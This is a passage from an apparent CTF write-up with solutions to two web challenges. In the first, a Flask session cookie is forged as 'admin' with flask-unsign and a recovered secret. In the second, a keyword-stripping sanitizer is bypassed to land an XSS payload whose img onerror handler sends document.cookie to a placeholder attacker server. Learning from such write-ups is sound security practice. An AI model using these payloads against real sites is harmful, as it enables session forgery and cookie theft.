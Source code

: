 ‘p6’ is the secret key used!!.

Now , we have to sign the token using this secretkey

```python
flask-unsign --sign --cookie "{'name': 'admin'}" --secret 'p6'

eyJuYW1lIjoiYWRtaW4ifQ.ZH7d-w.YF2iU4MpkmE9CXkCE8lIGenZ_Pc
```

So using this token , we can able to get the flag !!.

## Chall 5 →**fancy-page**

link : [http://fancy-page.hsctf.com/](http://fancy-page.hsctf.com/)

**Description : hmmm**

**Solution:**

In this webpage , we can able to create a content and send that content to the admin bot.

So, if we popup XSS , we can able to steal any info from the admin bot!!.

They gave the source code of the challenge.

```jsx
import { default as Arg } from "https://cdn.jsdelivr.net/npm/@vunamhung/arg.js@1.4.0/+esm";

function sanitize(content) {
	return content.replace(/script|on|iframe|object|embed|cookie/gi, "");
}

let title = document.getElementById("title");
let content = document.getElementById("content");

function display() {
	title.textContent = Arg("title");
	document.title = Arg("title");

	let sanitized = sanitize(Arg("content"));
	content.innerHTML = sanitized;

	document.body.style.backgroundColor = Arg("background_color");
	document.body.style.color = Arg("color");
	document.body.style.fontFamily = Arg("font");
	content.style.fontSize = Arg("font_size") + "px";
}

display();
```

On inspecting the display.js , it replaces the script,on,iframe,object,embed,cookie elements to “”.

so, what if we give the input like scrscriptipt. It removes the script string inside that string and it became again script !!.

So, the actual payload is 

```
<img src=x oonnerror=this.src='http://yourserver/?'+document.coocookiekie;>
```

submit the created content url to the bot server.!!

Here is the flag :
`flag{filter_fail}`